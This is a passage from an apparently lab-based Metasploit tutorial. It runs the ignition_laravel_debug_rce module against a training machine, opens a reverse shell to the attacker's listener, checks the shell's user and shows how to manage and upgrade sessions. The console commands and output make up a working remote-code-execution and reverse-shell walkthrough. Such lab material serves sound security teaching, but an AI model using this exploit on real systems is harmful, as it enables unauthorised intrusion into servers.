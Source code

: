 Using ip addr to list the interfaces corresponding IP address in Kali

```shell-session
kali@kali:~$ ip addr
2: eth0:  mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:cd:41:12:70:5d brd ff:ff:ff:ff:ff:ff
    inet 10.9.11.45/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2973sec preferred_lft 2973sec
    inet6 fe80::cd:41ff:fe12:705d/64 scope link
       valid_lft forever preferred_lft forever
```

Now that we’ve confirmed the vulnerability, let’s run the module to open a new session:  

Metasploit Console Commands

```shell-session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > run rhost=MACHINE_IP lhost=ATTACKER_IP HttpClientTimeout=20

[*] Started reverse TCP handler on 10.9.0.185:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.143.36:80
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (10.9.0.185:4444 -> 10.10.143.36:53986) at 2022-09-13 11:55:50 -0400
whoami

www-data
```

The opened shell will be a basic `cmd/unix/reverse_bash` shell. We can see this by running the background command and viewing the currently active sessions:

Metasploit Console Commands

```shell-session
background

Background session 1? [y/N]  y
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.9.0.185:4444 -> 10.10.143.36:53986 (10.10.143.36)
```

If you are currently in a session - you can run the `background` command to go back to the top-level Metasploit prompt. To upgrade the most recently opened session to Meterpreter, use the `sessions -u -1` command. Metasploit will now show two sessions opened - one for the original shell session and another for the new Meterpreter session:

Metasploit Console Commands
